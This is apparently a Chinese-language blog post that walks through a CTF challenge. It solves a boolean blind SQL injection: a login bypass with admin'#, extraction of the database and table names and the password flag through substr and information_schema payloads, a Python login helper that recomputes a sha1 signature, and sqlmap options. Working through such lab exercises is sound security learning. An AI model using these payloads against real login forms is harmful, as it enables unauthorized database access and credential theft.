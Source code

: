 ```yaml
---
layout: post
title:  "布尔盲注的白给式利用"
date:   2019-05-29
desc: "苟利国家生死以,岂因祸福避趋之"
keywords: none
categories: [Blue-whale]
tags: [sql,web]
icon: icon-html
---
```


# I Am Blind~~（我，星际玩家）~~

题目链接: [http://pwn1.blue-whale.me:23335/](http://pwn1.blue-whale.me:23335/)

这题目都把盲注两个字写脸上了

先`admin'#`试试

发现显示`success login, and flag is your password.`

得，一位一位试就完事了

## 手工注入或脚本注入

> 纯手工

- 库名获取

先把库名长度爆出来

```mysql
admin' and length(database()) = $长度
```

一个一个地试他娘的，试的时候直接对10二分了，还是挺快的

这里得到了库名长度

然后就需要一位一位地获取库名的字符

```mysql
admin' and substr(database(), $位置, 1) = $字符
```

二分比较快wdnmd

- 表名获取

~~我会告诉你库名实际上没什么用？~~

同理先把表名长度爆出来

```mysql
admin' and (select length(table_name) from information_schema.tables where table_schema = database() limit 0,1) = $长度#
```

同理

```mysql
admin' and substr((select table_name from information_schema.tables where table_schema = database() limit 0, 1), $位置, 1) = $字符#
```

- 字段名获取

盲猜`username`和`password`

试一试还真是

- flag获取

一位一位试就是了

```mysql
admin' and substr((select password from $表名 order by id limit 0, 1), $位置, 1) = $字符#
```

反正前五位`flag{`和最后一位`}`是固定的

> 脚本注入

什么你想要脚本？自己慢慢写吧

网上找的login函数

需要注意的是此处POST方法使用了`signature`来进行*sha1*校验，别的就没啥注意事项了

```python
def login(_username, _password):
    url = "http://pwn1.blue-whale.me:23335/index.php"
    data = {
        "username": _username,
        "password": _password,
        "signature": hashlib.sha1(_username + _password).hexdigest()
    }
    response = requests.post(url, data)
    content = response.content
    #print content
    if "success" in content:
        return True
    else:
        return False
```

## SQLMAP

> sqlmap用法

- -u 后接url，指定访问的地址

- --data

  后面接参数表，用于POST方法

- --eval

  设定由某个参数或多个参数决定的变量，如本题**signature**

```shell
--eval="import hashlib;signature=hashlib.sha1(username+password).hexdigest()"
```

- --current-db

  获取当前数据库名

- --tables

  获取数据表名

- --columns

  获取字段名

- --dump

  获取字段值

- -D

  设定数据库名

- -T

  设定数据表名

- -C

  设定字段名

**综上，此题白给**

